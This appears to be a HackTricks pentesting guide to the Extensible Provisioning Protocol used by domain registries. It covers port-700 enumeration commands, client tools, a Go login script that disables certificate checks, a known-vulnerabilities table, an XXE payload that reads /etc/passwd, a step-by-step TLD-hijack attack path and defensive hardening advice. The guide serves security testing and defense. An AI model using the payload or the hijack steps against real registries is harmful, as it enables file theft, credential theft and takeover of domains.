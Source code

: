 # 700 - Pentesting EPP

{{#include ../banners/hacktricks-training.md}}

## Basic Information

The Extensible Provisioning Protocol (EPP) is a network protocol used for the **management of domain names and other internet resources** by domain name registries and registrars. It enables the automation of domain name registration, renewal, transfer, and deletion processes, ensuring a standardized and secure communication framework between different entities in the domain name system (DNS). EPP is designed to be flexible and extensible, allowing for the addition of new features and commands as the needs of the internet infrastructure evolve.

Basically, it's one of the protocols a **TLD registrar is going to be offering to domain registrars** to register new domains in the TLD.

### Pentest

[**In this very interesting article**](https://hackcompute.com/hacking-epp-servers/) you can see how some security researches found several **implementation of this protocol** were vulnerable to XXE (XML External Entity) as this protocol uses XML to communicate, which would have allowed attackers to takeover tens of different TLDs.

---

## Enumeration & Recon

EPP servers almost always listen on TCP `700/tcp` over TLS.  A typical deployment also enforces **mutual-TLS (mTLS)** so the client must present a valid certificate issued by the registry CA.  Nevertheless, many private test or pre-production deployments forget that control:

```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
  -servername epp.test 2>/dev/null | head
```

If the server does not terminate the connection after the TLS handshake you can attempt to send an unauthenticated `<hello/>` message:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
  <hello/>
</epp>
```

### Open-source clients useful for testing

* **epp-client (Go)** – actively maintained, supports TCP/TLS and EPP-over-HTTPS (RFC 8730):  
  `go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – minimal client library that can easily be instrumented for fuzzing or nuclei-style workflows.
* **afq984/php-epp-client** – PHP implementation used by many small registrars; a convenient target for code-review.

Example minimal login+check script with Go epp-client:

```go
package main
import (
    "github.com/domainr/epp"
    "crypto/tls"
)

func main() {
    cfg := &tls.Config{InsecureSkipVerify: true}
    c, _ := epp.DialTLS("epp.test:700", cfg)
    c.Login("CLIENT_ID", "PASSWORD", nil)
    resp, _ := c.DomainCheck("example","com")
    println(resp)
}
```

---

## Common Weaknesses & 2023-2025 Vulnerabilities

| Year | Component | CWE | Impact |
|------|-----------|-----|--------|
| 2023 | CoCCA Registry < 3.5 | CWE-611 XXE | Remote file read & SSRF via crafted `<epp>` payload (patch: 2023-11-02) |
| 2024 | FRED EPP Server 2.x | CWE-322 Insufficient TLS cert validation | Bypass of mTLS allowed unauthorized registrar login |
| 2025 | Proprietary registrar panel | CWE-306 Missing Authentication for Critical Function | Domain transfer approval endpoint exposed over EPP-HTTP bridge |

### XXE / SSRF payload (works against many Java/Spring implementations)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
  <command>
    <check>
      <domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
        <domain:name>&xxe;</domain:name>
      </domain:check>
    </check>
  </command>
</epp>
```

When the parser is mis-configured (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`) the file content is returned inside the `<resData>` structure.

### Other typical findings

1. **Weak credential policy** – EPP login passphrases shorter than 8 chars; brute-force is often feasible because the spec only RECOMMENDS (not requires) rate-limiting.
2. **Missing `registryLock` / `serverUpdateProhibited` status** – once authenticated, attackers can immediately update NS records and steal traffic.
3. **Unsigned poll messages** – some implementations still do not sign poll Q&A messages, enabling spoofing/phishing of registrar operators.

---

## Attack Path: From Zero to TLD Hijack

1. Discover an EPP endpoint (often hidden behind a generic host like `ot&e.<tld>.nic.<cc>`).
2. Abuse one of the weaknesses above to gain registrar-level credentials (XXE → SSRF to IMDSv1, credential exfil, or TLS-bypass).
3. Issue `<update>` requests to change the domain’s `hostObj` records to attacker-controlled name servers.
4. (Optional) Submit a `<transfer>` to move the domain to an attacker-controlled registrar – many registries still rely on a **single auth-code**.
5. Profit: full control of DNS zone, ability to request TLS certificates via ACME.

---

## Defensive Measures & Hardening

* Enforce **mTLS with per-registrar client certificates** and pin the registry CA.
* Set `parserFeature secure-processing=true` or equivalent to kill XXE.
* Run **continuous fuzzing** of the XML parser (e.g., with `go-fuzz` or `jazzer` for Java).
* Deploy **Registry Lock / server*Prohibited** statuses for high-value domains.
* Monitor `poll` queue for suspicious `<transfer>` or `<update>` commands and alert in real-time.
* ICANN 2024 DNS-Abuse contract amendments require registries to prove rate-limit & auth controls – leverage them.



## References

* ICANN Security and Stability Advisory Committee (SSAC). "SAC118: Consequences of Registry Operator Failure to Implement EPP Security Controls". 2024.
* HackCompute – "Hacking EPP servers: abusing XXE to hijack TLDs" (2023).
{{#include ../banners/hacktricks-training.md}}
